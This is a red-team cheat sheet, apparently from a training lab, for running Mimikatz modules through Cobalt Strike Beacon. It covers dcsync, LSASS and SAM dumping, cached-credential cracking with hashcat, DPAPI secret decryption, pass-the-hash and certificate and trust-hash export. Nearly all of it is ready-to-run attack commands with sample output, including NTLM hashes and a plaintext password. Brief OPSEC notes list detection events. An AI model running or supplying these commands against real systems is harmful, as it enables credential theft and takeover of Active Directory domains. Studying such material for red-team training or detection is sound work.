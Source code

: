 The `!` elevates Beacon to SYSTEM before running the given command, which is useful in cases where you're running in high-integrity but need to impersonate SYSTEM.  In most cases, `!` is a direct replacement for `token::elevate`. For example:

```
beacon> mimikatz !lsadump::sam
```

The `@` impersonates Beacon's thread token before running the given command, which is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.  This is also compatible with other impersonation primitives such as `make_token` and `steal_token`.  For example:

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb F3rrari
[+] Impersonated DEV\nlamb (netonly)

beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
```


## logonpasswords

---

This module is still capable of retrieving NTLM hashes which is useful for pairing with the **Pass the Hash** or even cracking to recover the plaintext.

```
mimikatz !sekurlsa::logonpasswords
```

  **OPSEC**  
  
This module will open a read handle to LSASS which can be logged under event 4656.


## ekeys

---

The `sekurlsa::ekeys` Mimikatz module will dump the Kerberos encryption keys of currently logged on users.

Since most modern Windows services choose to use Kerberos over NTLM, leveraging these instead of NTLM hashes makes more sense for blending into normal authentication traffic.

These keys can be used in a variety of Kerberos abuse scenarios.

```
mimikatz !sekurlsa::ekeys
```

  **OPSEC**  
  
This module also opens a read handle to LSASS.


## sam

---

The Security Account Manager (SAM) database holds the NTLM hashes of local accounts only.

```
mimikatz !lsadump::sam
```

**OPSEC**  
  
This module will open a handle to the SAM registry hive.


## cache

---

Domain Cached Credentials (DCC) was designed for instances where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain (think of a roaming laptop for example).  The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM so it can't be used with pass the hash.  The only viable use for these is to crack them offline.

The `lsadump::cache` Mimikatz module can extract these from `HKLM\SECURITY`.

```
mimikatz !lsadump::cache
```

For hashcat the hashes should look like this:
```
$DCC2$10240#username#hash
```

```
hashcat -a 0 -m 2100
```

**OPSEC**  
  
This module will open a handle to the SECURITY registry hive.


## dcsync

---

The [Directory Replication Service (MS-DRSR) protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) is used to synchronise and replicate Active Directory data between domain controllers.  DCSync is a technique which leverages this protocol to extract username and credential data from a DC.

```
mimikatz lsadump::dcsync
```

In beacon:

```
dcsync dev.cyberbotic.io DEV\krbtgt
```

**OPSEC**  
  
Directory replication can be detected if Directory Service Access auditing is enabled, by searching for 4662 events where the identifying GUID is `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (for DS-Replication-Get-Changes and DS-Replication-Get-Changes-All) or `89e95b76-444d-4c62-991a-0facbeda640c` (DS-Replication-Get-Changes-In-Filtered-Set).

### For Domain and GUID

Performs a DSync attack for a specified domain and GUID.

```
mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}
```


## dpapi

---

### Elevated

DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by third-party applications like Google Chrome to store website credentials.

```
mimikatz !sekurlsa::dpapi
```

### Not Elevated

DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by third-party applications like Google Chrome to store website credentials.

```
mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc
```


## cred (decrypt)

---

Decrypts WCM blob.

```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
```


## cred (get MasterKey)

---

Returns the GUID of the WCM blob's MasterKey.

```
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E
```


## Enable Authentication Over Proxy

---

Enables authentication over proxy.

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```


## certificates

---

### User Certificates

Exports the current user's ADCS certificates.

```
mimikatz crypto::certificates /export
```

### Computer Certificates

Exports the machine's ADCS certificates.

```
mimikatz !crypto::certificates /systemstore:local_machine /export
```


## trust

---

Dumps the domain trust hashes.

```
mimikatz lsadump::trust /patch
```

